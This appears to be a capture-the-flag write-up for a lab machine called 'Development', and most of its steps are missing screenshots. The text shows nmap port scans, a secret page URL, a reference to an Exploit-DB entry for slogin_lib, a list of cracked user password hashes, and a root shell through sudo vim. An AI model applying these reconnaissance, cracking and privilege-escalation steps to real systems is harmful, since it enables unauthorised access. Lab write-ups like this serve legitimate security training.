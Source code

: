 # Development



```bash
sudo nmap -Pn -v -p- -sS -T5 192.168.43.16
```



![image-20200609015640191](assets/Development.assets/image-20200609015640191.png)

```bash
sudo nmap -v -T4 -sC -sV -p22,113,139,445,8080 192.168.43.16
```

![image-20200609020305877](assets/Development.assets/image-20200609020305877.png)

![image-20200609020436469](assets/Development.assets/image-20200609020436469.png)

![image-20200609020522951](assets/Development.assets/image-20200609020522951.png)



![image-20200609025850000](assets/Development.assets/image-20200609025850000.png)



![image-20200609030000322](assets/Development.assets/image-20200609030000322.png)



![image-20200609025927392](assets/Development.assets/image-20200609025927392.png)

![image-20200609030308050](assets/Development.assets/image-20200609030308050.png)

![image-20200609034055766](assets/Development.assets/image-20200609034055766.png)

```bash
http://192.168.43.16:8080/developmentsecretpage
```

![image-20200609030352781](assets/Development.assets/image-20200609030352781.png)

![image-20200609033609532](assets/Development.assets/image-20200609033609532.png)

![image-20200609033628979](assets/Development.assets/image-20200609033628979.png)

随便尝试一个密码

![image-20200609033732483](assets/Development.assets/image-20200609033732483.png)

slogin_lib.inc.php

![image-20200609075811498](assets/Development.assets/image-20200609075811498.png)

https://www.exploit-db.com/exploits/7444

![image-20200609082652891](assets/Development.assets/image-20200609082652891.png)



![image-20200609081843908](assets/Development.assets/image-20200609081843908.png)

```bash
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81	12345678900987654321
patrick, 87e6d56ce79af90dbe07d387d3d0579e	P@ssw0rd25
qiu, ee64497098d0926d198f54f6d5431f98		qiu
```

![image-20200609083553230](assets/Development.assets/image-20200609083553230.png)

![image-20200609083648687](assets/Development.assets/image-20200609083648687.png)

![image-20200609083738715](assets/Development.assets/image-20200609083738715.png)



![image-20200609083817145](assets/Development.assets/image-20200609083817145.png)

```bash
patrick@development:/home/intern$ sudo /usr/bin/vim
:! /bin/bash
```

![image-20200609084017496](assets/Development.assets/image-20200609084017496.png)







